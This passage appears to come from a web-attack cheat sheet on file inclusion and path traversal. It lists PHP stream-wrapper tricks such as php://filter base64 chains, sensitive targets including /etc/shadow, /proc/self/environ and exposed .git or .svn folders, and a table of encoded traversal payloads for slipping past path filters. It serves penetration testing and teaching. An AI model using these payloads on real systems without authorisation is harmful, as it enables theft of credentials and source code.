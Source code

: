     ```
    Multiple Filter
    ---------------
    php://filter/read=convert.base64-encode/
                 read=string.rot13/
                 ...
                 resource=phpinfo.php
    ```

  - `php://input`
  - `php://fd`
- Sensitive Files
  - Source Code
  - Version Contorl
    - [.git](https://github.com/arthaud/git-dumper)
    - .svn
    - .bzr
  - Hidden File
    - [.DS\_Store](https://github.com/lijiejie/ds_store_exp)
    - .index.php.swp
  - Unix
    - /etc/hosts
    - /etc/passwd
    - /etc/shadow
    - /proc/net/[tcp,udp]
    - /proc/net/\*
    - /proc/net/arp
    - /proc/net/fib\_trie
    - /proc/net/route
    - /proc/sched\_debug
    - /proc/self/cwd
    - /proc/self/environ
    - /proc/self/exe
    - /proc/self/fd/[num]
  - Web Server Config Files
    - /etc/apache2/apache2.conf
    - /etc/apache2/sites-available/000-default.conf
    - /etc/nginx/nginx.conf
    - /etc/php/php.ini
- Path Bypass
  - Encoding
    | Encoding                        | Payload   | Decode |
    |:--------------------------------|:----------|:-------|
    | unicode/UTF-8 encoding          | %c1%1c    |        |
    |                                 | %c0%af    |        |
    | unicode/UTF-7 encoding          |           |        |
    | overlong UTF-8 unicode encoding | %c0%2e    | `.`    |
    |                                 | %e0%40%ae | `.`    |
    |                                 | %c0ae     | `.`    |
    |                                 | %c0%af    | `/`    |
    |                                 | %e0%80%af | `/`    |
    |                                 | %c0%2f    | `/`    |
    |                                 | %c0%5c    | `\`    |
    |                                 | %c0%80%5c | `\`    |
    | URL encoding                    | %2e%2e%2f | `../`  |